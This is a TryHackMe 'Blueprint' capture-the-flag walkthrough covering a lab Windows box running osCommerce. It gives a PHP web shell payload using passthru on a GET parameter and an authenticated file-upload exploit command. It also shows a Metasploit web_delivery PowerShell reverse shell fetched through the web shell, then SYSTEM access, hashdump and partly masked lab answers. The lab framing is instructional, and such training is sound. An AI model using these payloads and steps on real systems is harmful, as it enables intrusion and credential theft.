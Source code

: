# TryHackMe Blueprint
**Hack into this Windows machine and escalate your privileges to Administrator.**

## Task-1 Blueprint

* During enumeration found - 135,139,443,445,3306,8080 ports open. Tried 'anonymous' login on smb but was unseccessful. Only active ports were - 443,8080. On '8080' found a directory named 'oscommerce' and then a sub-directory 'catalog'. Then a poorly developed web-page was opened which was redirecting to nowhere. 

* After this I ran gobuster on above site and got a page 'install'. In that was a database server which required some information to proceed. So I gave them these valued - 'Database Server':'localhost', 'username':'root', 'password':'', 'Database Name':'oscommerce'. 

* Then after clicking on continue you will see a web server page. Also you will see 'step=2' changing in the url. Web server page is already filled and now click continue. Then a page named 'Online Store settings' will come. In that enter details accordingly but set 'Administrator username':'admin' and 'Administrator Password':'admin' and then click on continue.

* After that we are successfully registered in the database. Now open your terminal and type 'searchsploit oscommerce 2.3.4'. You will see many exploits but one in particular 'arbitrary file upload'. Now open this python file and run it. You will see it's usage is given.

* Now it takes a .php file which contains our malicious code. Make a php file and in that write "<?php<br>	passthru($_ GET['cmd'])<br>?>". Now run the command (*python exploit.py -u http://IP:8080/oscommerce-2.3.4 --auth=admin:admin -f shell.php*) . After that you will see your authentication successful. In the last line a link will be given. Click that and it will redirect you to page having php warnings.

* Now open msfconsole and in that type (*use exploit/multi/script/web_delivery*). Now type (*show options*) and fill in the required fields. Set your 'SRVHOST' and 'LHOST' same as your 'tun0' ip. Now type 'show targets'. You will see a list of targets. From that select PSH. See the 'Id' of 'PSH' and then type 'set target id_of_PSH'. Now type 'set payload windows/meterpreter/reverse_tcp'. See your options one more time and then click continue. After running you will see something like 'Run the following command on the target machine:' on the metasploit console. Copy the whole command starting from 'powershell.exe' and then go to the website which we got from above result.

* Then type ?cmd='the_whole_command_copied_from_above'. So now your url will look like this - 'http://ip:8080/oscommerce-2.3.4/catalog/admin/shell.php?cmd=the_whole_command_copied_from_above'. Now wait for some time and check your metasploit shell.

* After successfully making the connection type (*sessions -i 1*) and then type 'getuid'. You will see 'Server username: NT AUTHORITY\SYSTEM'. We have successfully gained administrator. Now type 'hashdump' and you will see hashes of various users in the machine. Now answer below questions.

1. "Lab" user NTML hash decrypted<br>
Answer : google**** ('use crackstation to crack password')

* Type 'shell' in the metasploit console and you will see a windows cmd like shell. Now traverse to Administrator's desktop and get the root flag.

2. root.txt
Answer : THM{aea1e3ce6fe7f89e10cea***********}

